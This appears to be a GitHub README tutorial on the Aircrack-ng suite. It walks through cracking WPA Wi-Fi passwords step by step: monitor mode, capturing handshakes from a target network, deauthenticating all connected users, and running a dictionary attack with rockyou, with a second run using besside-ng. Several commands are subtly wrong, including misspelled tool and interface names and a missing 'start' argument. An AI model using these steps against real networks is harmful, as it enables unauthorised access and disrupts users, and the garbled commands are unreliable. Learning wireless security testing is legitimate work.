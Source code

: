 # Aircrack-ng Suite

Aircrack-ng is an open source tool for cracking and securing wireless network.  It is all in one suite allows you to keep an eye on WiFi security, and capture data packets. WiFi cards can be captured and injected to test their performance. It can also be used by pen testers to attack and crack the WPA and WEP protocols.

It mainly focuses on four areas of wifi security:

-  **Monitoring:** Data is captured in packets and exported to text files for processing by third-party software.

-  **Attacking:**  Packet injection can be used to perform replay attacks, deauthentication, and create bogus access points, among other things.

-  **Testing:** Testing the capabilities of WiFi cards and drivers

-  **Cracking:** WEP and WPA1/WPA2 PSK.

There are several aircrack-ng modes (Click here to view) but we are using only the following modes.

- [Airmon-ng:](https://www.aircrack-ng.org/doku.php?id=airmon-ng)  It's used to switch between monitor and managed modes. The status of the interfaces can be viewed by running the airmon-ng command without any parameters. It can also list and kill programmes that may cause the wireless card to malfunction.
- [Airodump-ng:](https://www.aircrack-ng.org/doku.php?id=airodump-ng): Airdump-ng is a tool that lists all of the networks in our immediate vicinity and displays relevant information about them. It's a packet sniffer, which means it's meant to capture all of the packets that pass across our network when we're in Monitor mode. We may run it against all of the networks to gather relevant information such as the mac address, channel name, encryption type, and number of clients connected to the network, and then begin targeting the target network. We can also use it against a specific AP (access point) to collect only packets from a specific Wi-Fi network.

- [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng): Aireplay-ng is a programme that generates unnecessary wireless traffic. It can hack WEP and WPA keys when combined with aircrack-ng. It's function is to insert frames. aireplay-ng has the ability to perform a variety of powerful strikes, including the creation and capture of new IVs. [Here](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) are some other forms of attacks:

- [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng): It is the best of both worlds. It automatically cracks WEP and WPA network. Note Wesside-ng supports only WEP but Besside-ng can support both WEP and WPA network.Besside-ng has the capability to crack all the associated WEP networks and log the WPA handshakes. And WPA handshakes can then be cracked using aircrack-ng. It is a combination of easside-ng and wesside-ng. 
	- [Easside-ng:](https://www.aircrack-ng.org/doku.php?id=easside-ng)
Easside-ng is a tool which allows to communicate via an WEP-encrypted access point (AP) without knowing the WEP key. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme and then setup a TAP interface so that one can communicate with the AP without requiring the WEP key. All this is done automatically.
	- [Wesside-ng:](https://www.aircrack-ng.org/doku.php?id=wesside-ng)
Wesside-ng is a tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme, reinject ARP requests and finally determine the WEP key. All this is done automatically.

## Pre-requisites:

- **Software:** We are using Kali Linux through VMware.

- **Hardware:** Wifi adaptor is necessary to inject packets and attack Wifi. Our laptop only has only inbuilt wifi adapter, which is insufficient. To put it another way, we require a wireless adapter that supports monitor mode and packet injection. [Here](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html) is a list of compatible adapters for pen testing.

The chipset we have is the TP-LINK TL-WN722N.


<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/tplink.jpg" width="300" height="300"></p>

However, according to the list of compatible adaptors, Version 1 is the only version that is compatible, yet we received Version 3. To enable the monitor mode in V3, we followed a few steps. [Click here to view the steps](https://github.com/megha-511/Aircrack-ng/blob/8083e818320b3b7c8485f83ef2c2c9ac05138571/Enable%20monitoring%20mode%20in%20V2_3.docx)

## 1. Crack WPA

1. 

    sudo airmon-ng wlan0
    
    iwconfig

This should show wlan0 in monitor mode.

2.

Sudo airmon-ng

Wlan0 must be changed to wlan0mon by now if not follow the steps below: ([Source)](https://www.reddit.com/r/Kalilinux/comments/nm14i5/my_wlan0_doesnt_change_to_wlan0mon_but_it_shows/)

`sudo airmon-ng stop wlan0`

`sudo Systemctl disable NetworkManager`

`sudo ip link set wlan0 down`

`sudo ip link set wlan0 name wlan0mon`

`sudo systemctl enable NetworkManager`

Now check for iwconfig it should show up wlan0mon.

3. To get the bssid of the target network and channel number: `sudo airodump wlan0mon`

4. `sudo airodump wlan0mon -d <target bssid>`

5. Wait until some connections are found

6. `sudo airodump -w wifiHack1 -c <channel_number> --bssid <target bssid> wlanomon`

  - w : write to wifiHack1 file which is used to store the 4 way handshake

7. In a separate window let’s deauthenticate all the users. When they connect back we can capture the handshake. `sudo aireplay –deauth 0 -a <bssid> wlan0mon`

8. Until new client joins the network please wait. You can see handshake on the top right corner of the screen where you hit airodump query.

9. Once handshake is captured, perform following tasks to do dictionary attack on the capture file to retrieve the wifi password.

-

sudo airmon-ng stop wlan0mon

sudo aircrack-ng wifiHack1-01.cap -w /usr/share/wordlists/rockyou.txt

That’s it! The wifi password will be cracked if it is common and simple by using dictionary attack. For complex passwords we need a strong GPU processor to crack it.

## 2. besside-ng

- How besside works?
<p align="center"><img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/How%20besside-ng%20works.jpg" width="300" height="300"></p>

- We have followed the below steps to auto capture the WPA handshake and crack using aircrack-ng:

1.  `sudo airmon-ng start wlan0mon`

2. Capture the bssid of the target network: `sudo airodump-ng wlan0mon`

3. `sudo airodump -w bessideHack -c <channel number> -d <bssid of the target> wlan0mon`

4. To autogenerate the capture file called wpa.cap: `sudo besside-ng -b <bssid>  wlan0mon`

- There is a small problem with besside as it creates malformed packets and no management frames. There is a work around for this,  we need to merge the capture files generated by airodump and the besside. [Source](https://security.stackexchange.com/questions/121636/missing-essid-from-aircrack-ng)

- `Mergecap -w merged.cap bessideHack.cap wpa.cap`

- `Wireshark merged.cap`

- Open .cap file with Wireshark: `wireshark wpa.cap`

- Right-click on the malformed packet and choose “Ignore”

- File -> Export Specified Packets

- Select “Remove Ignored Packets”

- Save the file as wpa1.pcap

6. `sudo aircrack-ng wpa1.pcap -w /usr/share/wordlists/rockyou.txt`

### Reference and Additional resources:
- [Frame injection](https://github.com/aircrack-ng/rtl8188eus)
- [Frame Vs Packet](https://www.networkworld.com/article/3225865/ethernet-frames-and-packets-whats-the-difference.html)
- [Fragment and Forge: Breaking Wi-Fi Through Frame Aggregation and Fragmentation](https://papers.mathyvanhoef.com/usenix2021.pdf)
- [4-way Handshake attack](https://netbeez.net/blog/secure-network-4-way-handshake/#:~:text=The%204-Way%20Handshake%20utilizes,Handshake%20occurs%20after%20EAP%20authentication.)
